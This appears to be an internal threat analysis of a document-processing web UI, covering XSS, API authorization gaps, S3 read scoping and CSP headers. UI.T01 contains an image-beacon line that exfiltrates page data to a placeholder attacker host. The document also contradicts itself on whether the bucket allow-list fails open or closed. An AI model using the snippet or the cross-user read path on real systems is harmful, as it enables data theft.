

# Web UI — Threat Analysis

## Document Information

| Field | Value |
|-------|-------|
| **Document Version** | 3.0 |
| **Last Updated** | 2026-07-28 |
| **Applies to release** | v0.6.3 |
| **Feature** | Web UI (React SPA) |
| **Classification** | Internal |

> **v3.0 update.** UI.T03 was rewritten: the AppSync GraphQL API it described
> no longer exists, and its mitigations (query depth/complexity limits,
> introspection disabling, field-level AppSync authorization) were **controls
> credited to deleted machinery**. UI.T01's CSP mitigation is corrected to
> reflect the policy actually shipped. Two threats are new: **UI.T06**
> (presigned-read key scoping) and **UI.T07** (hosting-mode header/CSP
> divergence).

## 1. Feature Overview

The Web UI is a React single-page application (SPA) built with Cloudscape and Vite, providing:
- **Configuration management**: Create/edit document processing configurations via visual editor
- **Document upload**: Upload documents (or bundled samples) for processing
- **Processing monitoring**: Status tracking via **polling** the REST API
- **Results viewer**: View extracted data, confidence, geometry, and processing outputs
- **Human review (HITL)**: Built-in review portal — claim sections, correct results
- **Agent chat**: Companion Chat and Chat-with-Document (SSE streaming)
- **Test Studio**: Test sets, document browser, ground-truth visual editor
- **Discovery**: AI-assisted configuration generation from sample documents
- **Document version history**: View/compare/delete prior processing runs
- **Extensions**: Host surface for installed Feature Platform extensions
- **Administration**: User management, model limits, service tier configuration

## 2. Architecture

The UI is served by **one of two mutually exclusive hosting modes**, and talks
to the backend over **two transports**.

## 3. Threat Analysis

### UI.T01: Cross-Site Scripting (XSS)

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T01 |
| **Category** | STRIDE: Tampering, Information Disclosure |
| **Description** | Document processing results displayed in the UI could contain malicious HTML/JavaScript. If results are rendered without proper sanitization, XSS could execute in the user's browser. Document-derived content is inherently attacker-influenced: an uploaded document's text, extracted field values, class names, summaries, and model-generated `confidence_reason` strings all reach the DOM. |
| **Attack Vector** | Upload a document containing XSS payloads in text content; extracted values containing script tags are rendered in the results viewer, section tables, processing-issue popovers, or markdown panes. Secondary vector: a prompt-injected model response (PM.T01) emits an active payload into a field the UI renders as markdown/HTML. |
| **Impact** | Session token theft, unauthorized API calls from the user's browser (with their full role), data exfiltration |
| **Likelihood** | Medium |
| **Severity** | High |
| **Affected Components** | Web UI (React), results viewer, configuration editor, markdown/SafeMarkdown renderers, feature UI bundles |
| **Mitigations** | React JSX auto-escaping is the primary control; document-derived markdown is routed through a `SafeMarkdown` renderer. **CSP is a partial control only** — see the residual risk below. Tokens are held in memory/session storage rather than cookies, so there is no cookie-theft path, but an XSS payload can still call the API as the user. The ZAP DAST probe checks response headers each build. |
| **Residual risk** | The shipped CSP is **not** a strong anti-XSS control: `script-src` is `'self' 'unsafe-inline' 'unsafe-eval' https://cdn.jsdelivr.net/npm/`, so inline script and `eval` still run. `'unsafe-inline'`/`'unsafe-eval'` are retained pending Monaco editor compatibility work (tracked as Talos finding #12 phase 2). The blanket `https:` source — which permitted script from **any** HTTPS origin and made the directive close to meaningless — was removed in the v0.6.x AppSec pass; what remains is the single CDN origin `@monaco-editor/react` loads Monaco from at runtime (`cdn.jsdelivr.net`), and self-hosting Monaco out of the Web UI bucket would let even that go. `object-src 'none'`, `base-uri 'none'`, `frame-ancestors`, and a hostname-restricted `connect-src` are genuine hardening (they block plugin execution, base-tag hijacking, and `fetch`/`XHR`/WebSocket exfiltration), but the policy does **not** stop injected inline script from executing, and `connect-src` is **not** a general exfiltration boundary: `img-src` still allows `https:` and there is no `default-src`, so `new Image().src = 'https://attacker/?d=' + data` leaves the page regardless. Treat React escaping — not CSP — as the control of record for UI.T01. **See also UI.T07: the same policy is now emitted in `WebUIHosting=APIGateway` mode too.** |

### UI.T02: Presigned Upload URL Abuse

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T02 |
| **Category** | STRIDE: Spoofing, Tampering |
| **Description** | S3 presigned URLs for document upload could be shared or reused to upload documents without re-authenticating |
| **Attack Vector** | Intercepted or shared presigned PUT URL used to upload documents outside the normal authentication flow |
| **Impact** | Unauthorized document upload, processing of malicious documents, storage/processing cost abuse |
| **Likelihood** | Low |
| **Severity** | Medium |
| **Affected Components** | S3 Input Bucket, `upload_resolver` |
| **Mitigations** | Minting the URL requires the **Admin/Author** group (enforced server-side in `upload_resolver`); short expiration; S3 bucket lifecycle policies; the concurrency counter and SQS bound runaway processing. Trailing-slash pseudo-object keys are skipped by the Queue Sender so console "folder" artifacts don't start executions. |

### UI.T03: UI API Abuse (REST dispatcher)

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T03 |
| **Category** | STRIDE: Tampering, Information Disclosure, Denial of Service |
| **Description** | The UI API is a **single API Gateway REST route** — `POST /op/{field}` — fronted by a Cognito authorizer that **only authenticates**. Any authenticated user can invoke *any* of the 118 routable operations by naming it in the path; whether that call is permitted is decided entirely inside the resolver Lambda. An operation whose resolver omits its group check is therefore reachable by every authenticated user regardless of role. Separately, a caller can drive high request volume or expensive operations (bulk list/scan ops, agent invocations) to degrade the API or run up model cost. |
| **Attack Vector** | An authenticated low-privilege user (e.g. Reviewer/Viewer) enumerates operation names from the JS bundle or `schema.graphql` and calls privileged ones directly with `curl`, bypassing UI navigation gating; or floods a costly operation. |
| **Impact** | Privilege escalation / unauthorized data access where a server-side check is missing; API performance degradation; Bedrock cost amplification |
| **Likelihood** | Medium |
| **Severity** | High |
| **Affected Components** | API Gateway REST API, `http_api_dispatcher`, all resolver Lambdas, `ddb_direct` handlers |
| **Mitigations** | **Per-operation group checks inside every resolver** (the authorization boundary — see AUTH.T03/T08). **Central input-shape validation** in the dispatcher rejects unknown/missing/wrong-typed/out-of-enum arguments with HTTP 400 before routing, restoring the boundary input gate AppSync used to provide (AUTH.T12). **Automated authorization testing is the primary regression control**: `make api-test-static` fails on op↔schema↔expectations drift or a missing enforcement pattern, and `make api-test` drives the live op×role matrix with per-role Cognito users plus unauthenticated/tampered-token calls. Optional WAFv2 IP allow-list (default-Block WebACL) on the stage; `ApiGatewayVisibility=PRIVATE` restricts invocation to a VPC endpoint. API Gateway stage throttling and Lambda reserved concurrency bound volume. |
| **Notes** | There is **no GraphQL engine** in the request path, so the classic GraphQL abuse vectors (introspection, deeply-nested queries, query batching, aliasing amplification) **do not apply** — `schema.graphql` is retained only as the input-validation source and as documentation of intent. Do not credit AppSync query-depth/complexity limits as controls; they no longer exist. |

### UI.T04: Hosting Origin Misconfiguration

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T04 |
| **Category** | STRIDE: Information Disclosure |
| **Description** | A misconfigured UI origin could expose S3 bucket contents beyond the SPA, serve stale/cached sensitive data, or allow cache poisoning. Applies to both hosting modes: CloudFront (OAC → S3) and the API Gateway S3 proxy. |
| **Attack Vector** | Manipulate cache keys or exploit misconfigured origin access to reach unintended S3 objects; in APIGateway mode, traverse the `{proxy+}` path to a non-UI key in the Web UI bucket |
| **Impact** | Exposure of S3 bucket contents beyond the UI; cached content served to the wrong user |
| **Likelihood** | Low |
| **Severity** | Medium |
| **Affected Components** | CloudFront distribution, API Gateway `GET /` + `GET /{proxy+}` methods, S3 UI bucket, `WebUIProxyRole` |
| **Mitigations** | CloudFront Origin Access Control (OAC) with a restrictive S3 bucket policy; in APIGateway mode the proxy integration assumes a dedicated `WebUIProxyRole` scoped to the Web UI bucket, so traversal cannot reach other stack buckets, and a missing key maps to 404. The Web UI bucket holds only build artifacts and feature bundles — no customer documents. Feature bundles are served with `Cache-Control: max-age=300` (matching the CloudFront TTL) so a republished hotfix propagates in minutes instead of being pinned for a year. |

### UI.T05: Client-Side Configuration Exposure

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T05 |
| **Category** | STRIDE: Information Disclosure |
| **Description** | The React SPA requires configuration values (Cognito pool/client IDs, identity pool ID, REST API endpoint, chat Function URL, bucket names) embedded in client-side code. These could be used to discover and target backend services |
| **Attack Vector** | Extract configuration from browser developer tools or the JS bundle to identify backend endpoints |
| **Impact** | Knowledge of backend endpoints enables targeted attacks against the REST API, the chat Function URL, Cognito, or S3 |
| **Likelihood** | Medium |
| **Severity** | Low |
| **Affected Components** | Web UI JavaScript bundle, runtime config |
| **Mitigations** | All backend services require authentication; client-side config contains only public endpoint identifiers; authorization is enforced server-side. Security does not depend on endpoint obscurity. Note the corollary for UI.T03: because the endpoint and operation names are inherently public, **server-side authorization is the only thing standing between a Viewer and an Admin operation.** |

### UI.T06: Object Reads Are Not Scoped Per Document

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T06 |
| **Category** | STRIDE: Information Disclosure, Elevation of Privilege |
| **Description** | `getFilePresignedUrl` / `getFileContents` accept an arbitrary caller-supplied `s3Uri` (and optional `versionId`) and return the bytes, or a presigned GET URL for them. The resolver validates the **bucket** against this stack's known buckets, and for the two buckets whose contents are partitioned **per user** it now also authorizes the **key**. What remains unauthorized is the key in the **document** buckets: nothing verifies that an object under the Input or Output bucket belongs to a document the caller may see, because no per-user axis in this deployment records which documents are whose. Both operations are declared **`ANY_GROUP`** (any group the stack creates), so a caller in *no* group is refused them — but every group is allowed, so a Viewer or Reviewer who learns or guesses a document key can read it, including another user's document results, evaluation baselines, reporting Parquet, and prior document versions via `versionId`. The group floor is orthogonal to that: **group membership is not per-document authorization**, and no setting of it closes this. |

| **Attack Vector** | An authenticated user calls `getFilePresignedUrl` with `s3://<output-bucket>/<other-users-doc>/sections/1/result.json`, or enumerates keys through `listDocumentVersions`, `listDocumentsDateHour` or `listDocumentsDateShard` (all now `ANY_GROUP`, so that arm needs an assigned group — any one of the five will do), then fetches the bytes directly from S3. ⚠️ **For the document buckets neither the fetch nor the enumeration needs an API operation at all.** `CognitoIdentityPoolSetRole` attaches one `authenticated` role with no role mappings, and `CognitoAuthorizedRole` grants `s3:GetObject`/`s3:GetObjectVersion`/`s3:ListBucket` on the Input and Output buckets plus `kms:Decrypt` to **every** authenticated user irrespective of group — which is the path the web UI itself uses, since the file viewer, the page thumbnails, the page-image viewer and the document export all sign S3 GETs in the browser. So for those two buckets neither the resolver's bucket allow-list nor the dispatcher's group floor bounds this vector; see AUTH.T03 residual (3) and [issue #1033](https://github.com/aws-solutions-library-samples/accelerated-intelligent-document-processing-on-aws/issues/1033). The **Configuration bucket is no longer on that role**, so the equivalent vector against configuration-profile content requires an API call and meets the key check described below. |

| **Impact** | Cross-user disclosure of document content and extracted data within the deployment, bounded to objects in the stack's own document buckets. |

| **Likelihood** | Medium (requires knowing/deriving a key; `s3:ListBucket` on the browser's own role enumerates the document buckets directly, for any authenticated caller, which is what keeps this at Medium now that no `ANY` API operation returns a key) |
| **Severity** | High |
| **Affected Components** | `get_file_contents_resolver` (`_validate_bucket`, `_validate_key_scope`, `_parse_and_validate_uri`, `_handle_presigned_url`, `key_scope`), S3 input/output/reporting/baseline buckets |
| **Mitigations** | A **bucket allow-list** built from injected env vars prevents the resolver being used as a generic S3-read gadget for arbitrary or third-party buckets, and fails **closed** — an unset allow-list refuses every request rather than skipping validation. Presigned URLs are short-lived; the URI must be `s3://` form and is parsed literally (preserving `#` in keys). **Key-level scope is enforced for the two per-user-partitioned buckets**, in `_parse_and_validate_uri` — the one function both fields call before any S3 call, so the capability-issuing field cannot be served without it. The Configuration bucket's `config_revisions/<profile>/<nnnnnn>.json.gz` is matched against the caller's `allowedConfigVersions`, and every Test Set bucket key (`<test_set_id>/…`, covering source documents, ground truth and published baseline snapshots) against their `allowedTestSets`; both use the canonical fail-closed lookups (`idp_common.config_scope`, `idp_common.testset_scope`), so an absent claim, an unresolvable caller or a failed UsersTable read denies. A refusal is a non-disclosing 403 that names neither the object nor the scope subject, and the object is never read, so it is not an existence oracle. The **Configuration bucket has been removed from the browser's Identity Pool role**, closing the no-API path to that content. Both operations require an **assigned group** (`ANY_GROUP`), which removes the self-registered group-less caller from the population — a narrowing of *who may ask*, not of *which document they may read*. Deployment is **single-tenant** — every authenticated user is a member of one organization's deployment, which is the design assumption that makes the remaining document-read gap acceptable for most deployments. |
| **Residual risk / recommendation** | **Per-document** key scoping is still absent, and that is what keeps this Open. For the Input and Output buckets there is no per-user axis to consult — a document is not owned by a user in any record this deployment keeps — so a caller holding any group can read any document's bytes by key, through the API or directly from the browser. The two **scope axes** the product does define are no longer defeated here: a config-version-scoped Author cannot read another profile's revision history, and a scoped Annotator cannot read another test set's documents or ground truth, on either operation and by either path. Recommend (a) giving documents an ownership or tenancy attribute and deriving the permitted key from it, which is the prerequisite for closing the rest, and (b) narrowing the Identity Pool role to match, tracked as [#1033](https://github.com/aws-solutions-library-samples/accelerated-intelligent-document-processing-on-aws/issues/1033). The out-of-scope-key cases for both axes are covered offline (`get_file_contents_resolver/test_key_scope.py`); the browser's remaining direct-read reach is pinned by `scripts/tests/test_browser_s3_grants.py` so it cannot widen unnoticed. |

### UI.T07: Security-Header and CSP Divergence Between Hosting Modes

| Attribute | Value |
|-----------|-------|
| **Threat ID** | UI.T07 |
| **Category** | STRIDE: Tampering, Information Disclosure |
| **Description** | Response security headers are attached by the hosting layer, and the two hosting modes historically did not provide the same set. The `SecurityHeadersPolicy` that carries the **Content-Security-Policy** is a CloudFront `ResponseHeadersPolicy` gated on `Condition: UseCloudFrontHosting`, so in `WebUIHosting=APIGateway` mode (required for `--govcloud`, and used for private/VPC-only deployments) there is no CloudFront and **no CSP was emitted for the SPA at all** — the API Gateway methods set only `X-Content-Type-Options`, `Strict-Transport-Security`, `X-Frame-Options`, and `Referrer-Policy`. **Closed in the v0.6.x AppSec pass**: `WebUIRootMethod` and `WebUIProxyMethod` now send a `Content-Security-Policy` of their own. |
| **Attack Vector** | An XSS payload (UI.T01) that the CloudFront CSP's `connect-src` restriction would have limited from exfiltrating to an arbitrary origin executed without that restriction in APIGateway/GovCloud deployments. |
| **Impact** | Loss of the plugin/`base-uri` hardening and of the `connect-src` restriction on API-shaped exfiltration precisely in the deployments most likely to be handling regulated data (GovCloud, private VPC). (Neither mode closes image-based exfiltration — see UI.T01's residual risk.) |
| **Likelihood** | Low (requires a UI.T01 XSS to chain from) |
| **Severity** | Medium |
| **Affected Components** | `SecurityHeadersPolicy` (main template, `UseCloudFrontHosting`), `WebUIRootMethod` / `WebUIProxyMethod` (api-resolvers template) |
| **Mitigations** | Both hosting modes now emit the same CSP: in APIGateway mode it is a static integration-response value on the SPA document and asset methods, held once in `Mappings -> WebUiSecurity -> ContentSecurityPolicy` of the api-resolvers template and pinned against the CloudFront copy by `scripts/tests/test_csp_policies_in_sync.py`. The only intended difference from the CloudFront policy is `frame-ancestors 'none'` instead of `'self'`, matching that mode's stricter `X-Frame-Options: DENY` (a CSP `frame-ancestors` overrides `X-Frame-Options`, so copying `'self'` verbatim would have *relaxed* framing there). `nosniff`, HSTS, `X-Frame-Options: DENY` and `Referrer-Policy` remain set per-method, and on the `/op` Lambda responses and the 4xx/5xx gateway responses. APIGateway mode is also typically deployed PRIVATE (VPC-only) or behind the WAF IP allow-list. |
| **Residual risk / recommendation** | `scripts/tests/test_csp_policies_in_sync.py` asserts the two copies match directive-for-directive (with `frame-ancestors` as the one asserted difference) and that neither `script-src` regains a blanket scheme source, so drift fails the build rather than reaching a GovCloud deployment. All three response codes of both SPA methods (200/404/500) carry the CSP, not just the 200 — a 404 for a missing asset key is still a response from the SPA's own origin. The CSP is deliberately **not** added to the API's `DEFAULT_4XX`/`DEFAULT_5XX` gateway responses or the `/op` JSON responses (non-HTML bodies, already served `nosniff`). The header itself is only observable against a deployed stage (`make stacktest-*`, APIGateway variants). |

## 4. Security Controls Summary

| Control | Implementation | Threats Mitigated |
|---------|---------------|-------------------|
| **React XSS protection** | JSX auto-escaping; `SafeMarkdown` for document-derived markdown | UI.T01 |
| **CSP (partial)** | CloudFront `ResponseHeadersPolicy`, mirrored as a static header on the two SPA methods in APIGateway mode — `object-src`/`base-uri`/`frame-ancestors`/`connect-src` hardening, and `script-src` limited to `'self'` + the Monaco CDN (no blanket `https:`). **Does not block inline script** (`unsafe-inline`/`unsafe-eval` retained) | UI.T01 (partial), UI.T07 |
| **Security header trio** | `nosniff` + HSTS + `X-Frame-Options: DENY` on SPA responses, `/op` responses, and gateway 4xx/5xx — **both** hosting modes | UI.T01, UI.T07 |
| **Presigned upload limits** | Admin/Author group to mint; short expiration | UI.T02 |
| **Resolver-side authorization** | Per-operation `cognito:groups` checks in every resolver Lambda | UI.T03 |
| **Input-shape validation** | Dispatcher validates `arguments` against a schema-derived spec; 400 on bad shape | UI.T03 |
| **Automated authorization testing** | `make api-test` / `make api-test-static` — op×role matrix, drift scan | UI.T03 |
| **Bucket allow-list on file reads** | `_validate_bucket` restricts reads to this stack's buckets (**fails open if env unset; no key-level scoping**) | UI.T06 (partial) |
| **Origin access** | CloudFront OAC; scoped `WebUIProxyRole` in APIGateway mode | UI.T04 |
| **Optional WAF** | WAFv2 REGIONAL default-Block WebACL with IPv4 allow-list on the API stage | UI.T03, UI.T07 |
| **Private endpoint** | `ApiGatewayVisibility=PRIVATE` + VPCe resource policy | UI.T03, UI.T07 |
| **HTTPS-only / TLS 1.2+** | CloudFront + execute-api minimum TLS policy; no port 80 | UI.T01, UI.T05, AUTH.T11 |
| **DAST** | Authenticated ZAP scan each integration build (headers, injection, disclosure) | UI.T01, UI.T03, UI.T07 |

## 5. Open Items

| Item | Threat | Status |
|------|--------|--------|
| Key-level authorization on `getFilePresignedUrl`/`getFileContents` | UI.T06 | **Open** — bucket-scoped only; not a valid boundary for config-version-scoped users. The `ANY_GROUP` floor these two now carry excludes a group-less caller from the *operations*; it is not a key-level check |
| Bucket allow-list fails open when env vars unset | UI.T06 | **Open** — legacy-compat path; consider failing closed |
| Identity Pool grants `s3:GetObject`/`ListBucket` on the document buckets to every authenticated user | UI.T06 | **Open** — one `authenticated` role, no role mappings, so no API-level control bounds the object bytes and the UI reads them directly. Measured on a live stack: a self-registered caller in no group obtained credentials on that role and read 15,953 bytes of extracted output. Needs group-scoped `RoleMappings` or a resolver-only read path; both change the document-viewing data path, and the two shapes with their obstacles are in [Identity Pool group scoping](../../../docs/planning/identity-pool-group-scoping-plan.md) |
| CSP absent in `WebUIHosting=APIGateway` mode | UI.T07 | **Closed** (v0.6.x) — static CSP header on `WebUIRootMethod`/`WebUIProxyMethod`, held in the `WebUiSecurity` mapping |
| `unsafe-inline` / `unsafe-eval` in CSP | UI.T01 | **Accepted** — pending Monaco editor work (Talos #12 phase 2) |
| `script-src` permits any `https:` origin | UI.T01 | **Closed** (v0.6.x) — narrowed to `'self'` + `https://cdn.jsdelivr.net/npm/` |
| `script-src` still allows a third-party CDN (`cdn.jsdelivr.net`) | UI.T01 | **Open** — `@monaco-editor/react` loads Monaco from jsDelivr at runtime; self-host it out of the Web UI bucket (`loader.config`) to drop the last cross-origin script source, and `style-src`'s `https:` with it |
